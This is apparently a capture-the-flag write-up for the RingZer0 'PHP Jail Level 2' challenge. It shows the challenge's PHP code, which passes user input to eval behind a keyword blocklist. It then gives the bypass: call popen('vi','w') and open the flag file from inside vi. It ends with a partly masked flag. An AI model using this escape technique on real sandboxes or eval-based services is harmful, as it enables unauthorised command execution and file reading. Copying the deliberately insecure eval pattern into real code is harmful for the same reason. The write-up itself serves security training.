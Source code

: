 # PHP jail 2 - Challenge 224

```
RingZer0 Team Online CTF

PHP Jail Level 2
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(\/|a|c|s|require|include|flag|eval|file)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>
```

We can spawn a vi process with popen that'll allow us to get past the filter:

```
-----------------------------
Your input:
popen('vi', 'w');
Vim: Warning: Input is not from a terminal
```

`:open flag.txt`

__FLAG-YlxV8c**********__
